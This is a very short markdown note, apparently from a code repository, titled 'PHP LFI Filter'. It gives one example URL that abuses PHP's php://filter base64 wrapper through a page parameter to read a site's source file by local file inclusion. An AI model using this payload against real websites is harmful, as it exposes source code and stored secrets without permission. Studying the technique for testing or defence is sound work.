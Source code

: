 # PHP LFI Filter

Filter for local file inclusion

``[`http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index`\
](http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index)
